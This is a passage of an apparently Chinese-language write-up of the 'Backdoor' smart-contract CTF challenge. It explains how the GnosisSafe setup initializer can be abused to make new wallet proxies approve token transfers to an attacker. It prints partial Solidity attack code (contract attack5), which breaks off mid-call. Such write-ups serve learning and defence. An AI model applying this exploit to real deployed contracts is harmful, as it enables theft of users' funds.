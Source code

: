 ```
}
function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns (bytes4){
    return IERC721Receiver.onERC721Received.selector;
}

}
```
# 11  Backdoor
题目要求：从注册表中取出所有资金

这个题涉及到代理合约，去看js文件我们可以发现部署了*GnosisSafe，GnosisSafeProxyFactory*，*GnosisSafe*safe是包含钱包得实际业务逻辑合约。*GnosisSafeProxyFactory*是一个可以生产*克隆的GnosisSafe*的合同。因为不需要重新部署整个业务逻辑，因此很便宜。

写这个题之前必须得去看*GnosisSafe，GnosisSafeProxyFactory*，两个合约，来看`createProxyWithCallback`函数，这个函数就是允许创建多个钱包的函数。注意看里面有一个initializer变量，会进 `createProxyWithNonce`函数进行call调用。  
然而initializer变量要求传入setup函数（GnosisSafe里）：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/9c7daf5e71074f29a5dcc4cfcef5b2e1~tplv-k3u1fbpfcp-watermark.image?)

再去看setup,setup有to和data两个变量，如果data是我们构造的approve函数，to是我们的地址，我们就能让代理合约给我们授权，就可以把他们的钱转走。

这个题的时机卡的特别准，关键点就是因为他们还没有创建代理合约，可以做手脚

## 攻击代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import  "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
contract attack5{
   GnosisSafeProxyFactory public factory;
   IProxyCreationCallback public callback;
   address[] public users;
   address public singleton;
   address token;
   constructor (address _factory,address _callback,address[] memory _users,address _singleton,address _token)public {
    factory=GnosisSafeProxyFactory(_factory);
    callback=IProxyCreationCallback(_callback);
    users=_users;
    singleton=_singleton;
    token=_token;
           }
    function approve(address _token,address spender)public{
        IERC20(_token).approve(spender,10 ether);
    }
    function attack()public {
        bytes memory data=abi.encodeWithSignature("approve(address,address)",token,address(this));
        for(uint256 i=0;i<users.length;i++){
            address[] memory owners=new address[](1);
            owners[0]=users[i];
           bytes memory initializer=abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)",
                                    owners,
                                    1,
                                    address(this),
                                    data,
                                   address(0),
                                   address(0),
                                     0,
```